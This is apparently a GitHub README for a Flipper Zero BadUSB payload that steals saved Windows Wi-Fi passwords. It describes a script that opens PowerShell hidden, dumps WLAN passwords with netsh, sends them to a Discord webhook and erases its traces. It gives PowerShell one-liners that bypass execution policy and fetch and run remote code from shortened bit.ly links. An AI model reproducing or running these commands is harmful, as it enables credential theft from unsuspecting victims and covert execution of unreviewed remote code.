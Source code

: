 # WLAN Windows Password - BadUSB ✅

A script used to stole target WLAN Passwords.


**Category**: WLAN, Credentials

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

## Disclaimer

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/gif/flipper_zero%20(15).gif?raw=true" width="209" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png?raw=true" width="600" />

</div>

## Description

A script used to stole target WLAN Passwords.

Opens PowerShell hidden, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content

ENG 🇺🇸
```powershell
powershell -w h -ep bypass $discord='<your_webhook_here>';irm bit.ly/WindowsWiFiPasswordsENG | iex
```

ITA 🇮🇹
```powershell
powershell -w h -ep bypass $discord='<your_webhook_here>';irm bit.ly/WindowsWiFiPasswordsITA | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'
